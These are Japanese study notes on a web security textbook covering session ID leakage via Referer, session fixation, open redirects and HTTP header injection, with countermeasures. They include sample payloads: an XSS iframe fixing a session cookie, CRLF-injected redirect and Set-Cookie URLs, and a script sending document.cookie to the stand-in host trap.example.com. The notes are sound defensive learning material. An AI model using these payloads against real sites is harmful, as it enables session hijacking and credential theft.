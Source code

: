 # 徳丸本
- ## 4章 Webアプリケーションの機能別に見るセキュリティバグ(続き)
- ### 4.6 セッション管理の不備(続き)
- #### 4.6.3 URL埋め込みのセッションID
	- セッションIDをCookieではなく、URLに埋め込むようにしていると、RefererヘッダからセッションIDが漏洩する可能性がある
	- ただし、セッションIDが漏洩するためには、以下の2つの条件が必要である
		- サイト内に外部サイトへのリンク(=悪意を持ったサイトへのリンク)を作成出来る
		- Referrer-Policyをunsafe-urlなどにしている
			- [参考](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Referrer-Policy)
			- Referrer-Policyを使うことで、Refererの送信を制限することが出来る(Referrer-PolicyのスペルはRefererではなく、Referrer)
			- レスポンス中のHTTPヘッダで制限する方法とHTMLで制限する方法がある
			- unsafe-urlは常にオリジン、パス、クエリパラメータをRefererとして送信する
			- デフォルトはstrict-origin-when-cross-originで、この場合、同一オリジンへのリクエストでしかクエリパラメータを送信しない
- #### 4.6.4 セッションIDの固定化(session fixation)
	- 攻撃者が用意したセッションIDを利用者に使わせる
	- 利用者が個人情報を入力すると、攻撃者がそれを見ることが出来る
	- セッションIDをURLに埋め込んでいるサイトの場合、攻撃が簡単
		- 利用者がURLを注意深く見ていたら失敗するが
		- 攻撃者がセッションID付きのURLを利用者に送信して、新規登録させる
			- セッションIDは攻撃者が用意する
		- 利用者が新規登録して、セッションIDに個人情報が紐づく
			- 新規登録が完了する前でも、入力画面と確認画面があった時、確認画面から入力画面に戻った時に入力値を復元するためにセッション変数を使っていると、session fixationが可能
		- セッションアダプションが有効なサイトの場合、攻撃者は適当なセッションIDを作れば良い(ABCとか何でも良い)
			- セッションアダプションとは、未知のセッションIDを受け入れるというもので、利用者が勝手に作ったセッションIDに情報を紐づける
				- PHPやASP.NETなどでセッションアダプションが有効になっている
			- セッションアダプションが有効でない場合、サーバが生成したセッションIDにしか情報を紐付けない
		- セッションアダプションが有効でないサイトの場合、攻撃者がサイトを閲覧して、有効なセッションIDを発行して、これを利用者に使わせる
			- といっても、[この記事](https://www.ubsecure.jp/blog/session_fixation)の図のように、サイトにアクセスしたタイミングでセッションIDが発行されるようになっていないと攻撃は成立しない
			- 新規登録してからセッションIDが発行される仕組みなら、既にそのセッションIDに攻撃者の情報が紐づいてしまうので、そのセッションIDを使った利用者はおかしいと思うはずなので
	- セッションIDをCookieで管理しているサイトの場合はXSSやHTTPヘッダインジェクションを利用する
		- XSSの場合は以下のようなiframeを埋め込む
			- ```html
			  <iframe width=320 height=100 src="http://example.jp?keyword=<script>
			  document.cookie='PHPSESSID=ABC'
			  </script>"></iframe>
			  ```
			- iframeは隠しておいて、サイト(http://example.jp)へのログインを促す
	- 対策
		- リクエスト中に含まれるセッションIDに情報を紐づけるのではなく、サーバ側で新たにセッションIDを生成し、これに情報を紐付け、このセッションIDをCookieにセットする(前のセッションIDは削除する)
		- トークンを利用する方法
		  id:: 64e19f0d-9e36-4788-8940-87cf0bc35d12
			- ↑が出来ない時(そんな時ある？)に使う
			- 新規登録したタイミングで、セッションIDに情報を紐付けるだけでなく、サーバでトークンを生成し、このトークンをセッション変数とCookieにセットする
			- 認証後のページはトークンを検証する
			- 攻撃者はトークンを知らないため、利用者の個人情報を見ることが出来ない
- ### 4.7 リダイレクト処理にまつわる脆弱性
- #### 4.7.1 オープンリダイレクト
	- リダイレクトはLocationヘッダを使う方法と、JavaScriptを使う方法(location.href="...")がある
	- リダイレクト先を外部から指定できるようになっている(クエリパラメータなどで)と、個人情報を盗まれる可能性がある
		- リダイレクト先がオープンであるという意味で、オープンリダイレクト
	- 攻撃例
		- ログイン画面 → ログイン完了画面というページ遷移を考える
		- 普通なら、ログイン画面のformタグのactionでログイン完了画面を指定することでページ遷移を行うが、actionで指定した処理がLocationヘッダを返すことで、ログイン完了画面へのページ遷移を行う場合を考える
		- ログイン画面はクエリパラメータで遷移先のURLを受け取る
		- このURLをformタグで送信し、actionで指定した処理がLocationヘッダの値にセットする
		- 攻撃者はクエリパラメータのURLに罠サイトを指定して、これを利用者が閲覧するように仕向ける(`http://example.jp/login?url=http://trap.example.com`など）
		- 利用者がログイン画面でログインボタンを押すと、罠サイトに遷移する
		- 罠サイトは正規サイトのログイン失敗画面に似せて作る
		- 利用者はパスワードを間違えたと思って、再度IDとパスワードを入力してログインボタンを押す
		- この時に攻撃者のサーバにIDとパスワードが送られるようにする
		- さらに、正規サイトのログイン画面に遷移するようにしておけば、利用者は今度はログインが成功したと思い、気づかれにくくなる
	- 対策
		- リダイレクト先のURLを固定し、外部から指定出来ないようにする
		- やむを得ず、リダイレクト先を可変にしたい場合は、リダイレクト先のURLを直接指定せず番号指定にする
			- ページ番号のURLの対応表は外部から見えないファイルやデータベースで管理する
		- 番号指定にしたくない時は、リダイレクト先のドメイン名を検証する
			- 検証漏れが多いので注意
			- 例えば、URLが`http://example.jp/`から始まっていたらOKとすると、HTTPヘッダインジェクションで回避される
	- 外部ドメインにリダイレクトする場合は、クッションページを用意すると、被害を抑えられる
		- クッションページがないと、正規サイトに似せて作った罠サイトが作られていると、リダイレクトしても、まだ正規サイト内にいると思ってしまうため
- #### 4.7.2 HTTPヘッダ・インジェクション
	- 外部からのパラメータを元にHTTPヘッダとして出力していると、HTTPヘッダ・インジェクションが発生する
	- 外部ドメインへのリダイレクト、任意のCookie生成、偽画面の表示といった攻撃が可能
	- 外部ドメインへのリダイレクト
		- オープンリダイレクトで説明した、遷移先のURLをクエリパラメータで受け取るログイン画面(`http://example.jp/login?url=...`)を考える
		- URLの検証を行なっていて、`http://example.jp/`で始まっていない場合はエラーとする
		- しかし、`http://example.jp/login?url=http://example.jp/%0D%0ALocation:+http://trap.example.com`にアクセスすると、検証をクリアし、http://trap.example.comにリダイレクトしてしまう
		- `%0D%0A`はCRLFを意味していて、これによってプログラムは2行のLocationヘッダを出力する
			- ```
			  Location: http://example.jp/
			  Location: http://trap.example.com
			  ```
		- Apacheはプログラムから複数のLocationヘッダを受け取った時、最後のLocationヘッダのみをレスポンスとして返す
	- 任意のCookie生成
		- `http://example.jp/login?url=http://example.jp/%0D%0ASet-Cookie:+PHPSESSID=ABC`にアクセスすると、Cookieがセットされる
		- session fixationに利用する
	- 偽画面の表示
		- `%0D%0A`を2回連続させることで、その後の文字列がレスポンスボディと見做される
		- 正規サイトのコンテンツも一緒に表示されてしまうが、CSSで隠すことが出来る
		- 偽のフォームを作成して個人情報を盗むことが出来る
			- ドメインは正規のものであるため信用してしまう可能性がある
		- JavaScriptを実行してCookieを盗んだり出来る
			- `?url=http://example.jp/%0D%0A%0D%0A<script>fetch('http://trap.example.com?sid='%2Bdocument.cookie)</script>`など
	- 対策
		- 外部からのペラメータをレスポンスヘッダとして出力しない
		- LocationヘッダやSet-Cookieヘッダの出力を専用APIに任せる
			- Ginの場合、ctx.Redirectやctx.SetCookieなど
			- 中身の処理がどうなっているのか後で調べる
	- HTTPヘッダ・インジェクションに関連して、HTTPレスポンス分割攻撃というのがある([参考](http://www.techmatrix.co.jp/product/jtest/security/httpresponsesplitting.html))
		- HTTP/1.1では複数のリクエストをまとめて送信することが出来て、この場合レスポンスもまとめて返される
		- 1つ目のリクエストでHTTPヘッダ・インジェクションをして、偽のコンテンツを2つ目のリクエストに対するレスポンスとして誤認させ、キャッシュサーバに偽コンテンツをキャッシュさせる(キャッシュ汚染)